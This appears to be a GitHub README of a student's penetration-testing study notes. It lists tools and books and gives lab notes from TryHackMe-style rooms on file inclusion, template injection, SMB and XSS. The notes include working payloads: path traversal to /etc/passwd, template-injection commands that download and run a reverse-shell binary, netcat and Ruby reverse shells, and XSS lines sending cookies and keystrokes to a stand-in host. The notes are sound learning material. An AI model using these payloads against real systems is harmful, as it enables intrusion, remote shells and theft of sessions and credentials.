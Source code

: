 ---
#   Computer Science, Cybersecurity, and Software Engineering

 <script src="https://tryhackme.com/badge/1210884"></script>

<details>
<summary>My Reading List & Resources </summary>

* Linux Basics for Hackers Getting Started with Networking, Scripting, and Security in Kali (OccupyTheWeb)
* Penetration Testing A Hands-On Introduction to Hacking (Weidman, Georgia)
* Becoming A Master Hacker (OccupyTheWeb)
* Competitive Programming in Python 128 Algorithms to Develop your Coding Skills (Christoph Dürr, Jill-Jênn Vie)
* Real-World Bug Hunting A Field Guide to Web Hacking (Peter Yaworski)
* Codecademy -> https://www.codecademy.com/profiles/JeremyLaratro
* TryHackme.com -> https://tryhackme.com/p/jeremylaratro
* HackTheBox.com -> 
* Hacktricks.xyz
* picoctf.org -> https://play.picoctf.org/users/jeremylaratro
* LeetCode -> https://leetcode.com/jeremylaratro/
</details>


----------
>Overview, Tools, and Pathways
Many tools exist for various different purposes when testing and exploiting systems. The tools necessary for to exploit any machine will vary but in most cases, begin in a similar fashion which is enumeration and reconnaissance. 
The following tools are ones which I have used for challenges, machines, and CTFs.
<details><summary>
General Enumeration | Scanning | Reconnaissance
</summary>

>>#### whatweb
>- This is often the first tool used to determine basic info about the web server (in cases where a domain is the given target) and to obtain the IP address.

>>####  Nmap  
>- Among the most commonly used tools, nmap allows one to scan the target machine and gain a great deal of information about it, including open ports, services, and even script execution.

>>####  wpscan  
>- If a wordpress site is identified, wpscan is extremely useful in finding potential vulnerabilities by enumerating plugins along with various other powerful features including bruteforce attacks if xmlrpc is enabled.

>>####  Nessus  
>- Nessus is an all-around vulnerability scanner and can help identify potential vulnerabilities and avenues of attack

>>####  OWASP Zap  
>- OWASP Zap is a GUI-based scanning tool that is focused on the OWASP top 10 vulnerabilities. This is another tool that can be useful in determining potential vulnerabilities.

>>####  Dig, dnsenum, and nslookup
>- These tools, along with various others, are useful in automating the process of DNS queries and can be extremely useful in reconnaissance of a website and in understanding the ownership and relationship between domain names and IPs. 
></details>
<details><summary> Exploitation and Investigation Tools
</summary>

>There are thousands and thousands of different tools, scripts, and applications out there for all the various different attack types and vulnerabilities. The following are ones which I have personally used in labs and challenges and which I am at least fairly comfortable using.

>#### Web Based Exploitation
>>####  BURP Suite
>> - Powerful proxy -> intercept and modify requests, leading to a large variety of potential uses
>>####  SQLMap 
>> - SQLi scanner and exploitation tool
>>####  dirb, dirbuster, gobuster 
>> - Directory enumeration
>>####  ffuf, hydra 
>> - Web fuzzing, directory enumeration, account brute forcing
>>####  sstimap, lfimap 
>> - LFI and SSTI vulnerability scanner and exploitation tool
>>####  xsssniper
>> - XSS scanner and exploitation tool
>>####  rapidscan 
>> - Tool which essentially creates a suite of other popular exploitation tools like sqlmap, dirb, etc. 

>#### Network and Offline Exploitation
>>####  Metasploit
>> - Massive collection of known exploits, scripts, payloads, and database
>>####  hashcat
>> - GUI-accelerated password cracking tool. Extremely quick.
>>####  John the Ripper
>> - Another password cracking tool, particularly useful for it's auto-detection and john2'other' conversion scripts. 
>>####  cewl, crunch
>> - Custom password and wordlist generators

>#### Investigative Tools
>>####  Shodan
>> - Extremely powerful banner search engine. 
>>####  binwalk, exiftools, strings, cat
>> - Linux file analysis tools
</details>
<details><summary> 
Areas I'd Like to Improve </summary>

>####  Reverse Engineering
> - One of the areas I'd specifically like to improve in is reverse engineering, using tools like Ghidra and Apktool.
>####  Programming
> - Currently, I am most comfortable programming with Python, then Java, but would like to 
improve my C++ skills as I believe that understanding C++ and other lower-level 
languages improves on the greater understanding of underlying computer systems. I'd also like to 
learn more languages, in general. 
>#### SSTI and RCE
> - I would like to get less reliant upon tools when attempting to exploit SSTI and RCE vulnerabilities, and need
to improve my understanding of PHP and common web frameworks in order to be able to develop my own exploits.
</details>

----------
> Notes from labs, CTF's, and machine's on HackTheBox, TryHackMe, OWASP Juice Shop, etc.
<details>

<summary>
Local File Inclusion and Remote File Inclusion Overview 
</summary>

># LFI

Notes from TryHackMe's LFI/RFI room. 

Local file inclusion is a vulnerability that can allow attackers to 
traverse the file system due to improperly or non-sanitized requests. 
This may allow an attacker to access sensitive files, ie /etc/passwd

Commonly used attack vector for LFI is '/../../'
````
get.php?file=../../../../etc/passwd
````

This allows traversal through layers of the directories to the root or target folder/directory. How many times depends on the specific system.
This can be determined by encouraging an error, ie:
````
 index.php?lang=jfbdsgd
 ````
 which then may return an error containing something along the lines of:
````
'..
 in /var/www/html/lab2.php on line 26'
 ````
 
 The presence of 4 layers can be derived from this, and thus, 4 levels can be used for the attack:
 ```
 index.php?lang=../../../../etc/passwd
 ```
 OS info can be derived as well:
```
 /get.php?file=../../../../boot.ini
 /get.php?file=../../../../windows/win.ini
 
 ```
 Sanitization and filter evasion:
 
 In PHP 5.3.3 and below, NULL bytes can be used to signify end of string and stop .php extension from being appended
 index.php?lang=../../../../etc/passwd%00
 
 Using a '.' can also be used to signify staying within the directory
````
 ../../../../etc/passwd/.
 ````
 Forced directory - if developer forces a directory, evasion is possible by understanding where that directory lies within the levels.
 Evasion may be as simple as adding an extra layer, ie:
````
 /../../../etc/passwd  --> /../../../../etc/passwd
 ````
 Burp suite can be used to evade any request filters that may filter or change characters
Try POST, GET 
If _REQUEST is being used, take advantage of cookies: 
````
POST /challenges////////////chall3.php HTTP/1.1
Host: 10.10.120.210
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.120.210/challenges///////////chall3.php?file=
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: =../../../etc/flag3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

file=../../../etc/flag3%00
```` 
--------------------------
># RFI
 
RFI is similar to LFI but involves remote inclusion of files and potentially RCE. It depends on the function:
allow_url_fopen

Overview:
Payload is hosted on attackers servers -> payload injected via HTTP requests using include function -> payload is executed
````
GET /page.php?file=
lang=http://0.0.0.0/r.elf
````
````
O:8:"_construct":1:{s:4:"cookie";s:10:"Some data!";} 
````
Tools:
````
- lfimap
- lfitester
- vailyn
````
</details> 

<details>
<summary>Server-Side Template Injection - SSTI</summary>
Notes from SSTI Lab on TryHackMe.

Common test-cases:
````
{7*7}
{{7*7}}'
a{{bar}}b
{var} ${var} {{var}} <%var%> [% var %]

````

1.  Start local server.
````
python3 -m http.server 80

````
2. Test functionality of python server remotely using JS and curl.
````
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.5")}

10.10.16.5
````
3. Create reverse shell payload and initialize a netcat listener for it. 
````
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.5.0.2 LPORT=5010 -f elf > r.elf

nc -lvnp 443
````
4. Perform the SSTI, getting RCE on the server.
````
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.5.0.2:5003/r.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}

*{os.system("nc -e /bin/sh 10.10.16.5 5010")}
<%=system("ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.5.0.2%22%2C5007%29%29%27")%>
````
Tools:
````
- sstimap
````

</details>
<details>
<summary>SMB Exploitation</summary>
SMB- server message block
* Notes from TryHackMe's SMB room

Enumeration / Recon:
SMB uses port 445
A common service name is 'microsoft-ds'
After enumerating the system and finding a potential SMB exploitation pathway:
Further enumerate the SMB service using smbclient:
````
smbclient -L ip 
````
* Share names will be listed

	
Check for the guest or anonymous login, ie:
Sharenames:
````
ADMIN$
C$
WorkShares
````
After identifying potentially vulnerable share, attempt login:
````
smbclient \\\\ip\\<share>>
````
Upon entry --> 
* browse directories, look for sensitive files
* potential path traversal, pivot to other shares


</details>
<details>
<summary>XSS</summary>
XSS
Cross site scripting
Injection attack where a malicious payload can be injected into a web page and potentially result in an attacker getting user, staff, or other sensitive data

Check
````
<script>alert('XSS');</script>
````
Session stealing:
````
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
````
Key loggger:
````
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
````
Business Logic 
````
<script>user.changeEmail('attacker@hacker.thm');</script>
````

#### Stored
Stored XSS is XSS where a payload is injected into a webpage, and stored at the server level, resulting in that malicious code's presentation to other users of the site. This allows for various serious threats. 
Attack Vectors:
Comments on a blog
User profile information
Website Listings


#### Reflected
Reflected XSS, on the other hand, is XSS where the payload is reflected only on the page instance itself. Attackers must send a link to the altered page to a victim to take advantage of reflected XSS, as it is not stored at the server level.
Attack Vectors:
Parameters in the URL Query String
URL File Path 

#### DOM
DOM-based XSS depends on JS code executing locally and not server-side. This allows for an attacker to exploit specific JS function and then, like reflected XSS, send a link with the malicious code injected. Requires a deeper level of JS to exploit. 
Attack Vectors:
eval()

#### Blind
Blind XSS is XSS where malicious code is presented to other users, as in stored XSS, however you are unable to see it. In order for attackers to take advantage of this XSS, an HTML callback is incorporated into the payload.


Evasion:
````
"><script>alert(1);</script>
````
Close tag of encapsulating div:
````
</textarea><script>alert(1);</script>
````
Filter evasion:
Filter for 'script' --> sscriptcript
````
<sscriptcript>alert(1);</sscriptcript>
````
Within an image:
````
/images/cat.jpg" onload="alert(1);
````
Tools:
````
- xsshunter
- xsssniper
- xssstealer
- garud
- 0d1n
````
</details>